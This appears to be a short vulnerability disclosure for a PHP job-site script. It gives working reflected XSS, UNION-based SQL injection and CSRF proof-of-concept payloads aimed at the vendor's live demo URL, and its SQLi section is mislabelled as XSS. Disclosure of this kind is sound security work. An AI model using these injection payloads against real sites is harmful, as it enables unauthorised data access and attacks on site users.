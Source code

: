 ### Ready Made Job Site Script  SQLi/XSS/CSRF

Well, when I pentest the official demo site of Ready Made Job Site Script, I found some vulnerabilities here.

#### XSS:

There're some reflect-xss in this system, for example:

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/xss1.png)

```
http://phpscriptsmall.biz/demo/onlinejobsearch/job
```

POST key para "keyword":

```
keyword='"><svg/onload=alert(/xss/)><'"&location_name[]=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/xss2.png)


#### SQLi:

There're some reflect-xss in this system, for example:

```
http://phpscriptsmall.biz/demo/onlinejobsearch/job
```

POST key para "location_name[]":

```
keyword=666&location_name[]=-1813) UNION ALL SELECT 6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,CONCAT(0x716a707071,0x4b7052435851504b686a5571556e74777a5a43616a5742614b4e466b7a424a6f4b6b59484a566a51,0x716b6b6b71),6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208#
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!

#### CSRF

With the csrf bug, we can cheat the user to change some important content ,or get post reflect-xss attack here.

POC：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://phpscriptsmall.biz/demo/onlinejobsearch/job" method="POST">
      <input type="hidden" name="keyword" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&#47;xss&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="location&#95;name&#91;&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```




